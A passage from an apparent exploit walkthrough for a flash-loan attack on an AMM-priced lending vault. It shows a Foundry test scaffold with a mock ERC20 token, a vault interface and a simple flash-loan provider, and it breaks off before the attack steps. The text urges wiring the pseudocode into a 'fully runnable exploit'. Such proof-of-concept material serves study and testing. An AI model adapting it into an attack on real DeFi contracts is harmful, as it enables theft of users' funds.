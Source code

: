 
> The AMM swap calls above are **pseudocode**; wire them to your local UniswapV2/UniswapV3 style pair/router in tests to create a fully runnable exploit.

---

## 🧪 Foundry Test (Walkthrough)

Below is a **conceptual test** you can adapt. It sets up: tokens, AMM pair, vault, a simple flash provider, and executes the exploit.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "forge-std/Test.sol";

contract ERC20Mock {
    string public name; string public symbol;
    uint8 public immutable decimals = 18;
    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    constructor(string memory n, string memory s, uint256 supply) {
        name = n; symbol = s;
        _mint(msg.sender, supply);
    }
    function _mint(address to, uint256 amt) internal {
        balanceOf[to] += amt; totalSupply += amt;
    }
    function transfer(address to, uint256 amt) external returns (bool) {
        balanceOf[msg.sender] -= amt; balanceOf[to] += amt; return true;
    }
    function approve(address sp, uint256 amt) external returns (bool) {
        allowance[msg.sender][sp] = amt; return true;
    }
    function transferFrom(address f, address t, uint256 amt) external returns (bool) {
        uint256 a = allowance[f][msg.sender]; require(a >= amt, "allow");
        allowance[f][msg.sender] = a - amt;
        balanceOf[f] -= amt; balanceOf[t] += amt; return true;
    }
}

interface IVaultLike {
    function deposit(uint256) external;
    function borrow(uint256) external;
    function repay(uint256) external;
    function collateral(address) external view returns (uint256);
    function debt(address) external view returns (uint256);
}

contract SimpleFlashProvider {
    address public immutable token;
    constructor(address _token) { token = _token; }
    function flashLoan(uint256 amt, bytes calldata data) external {
        // Send funds to borrower
        (bool ok1,) = token.call(abi.encodeWithSignature("transfer(address,uint256)", msg.sender, amt));
        require(ok1, "send fail");
        // callback
        (bool ok2,) = msg.sender.call(abi.encodeWithSignature("onFlashLoan(uint256,bytes)", amt, data));
        require(ok2, "callback fail");
        // Expect repayment
```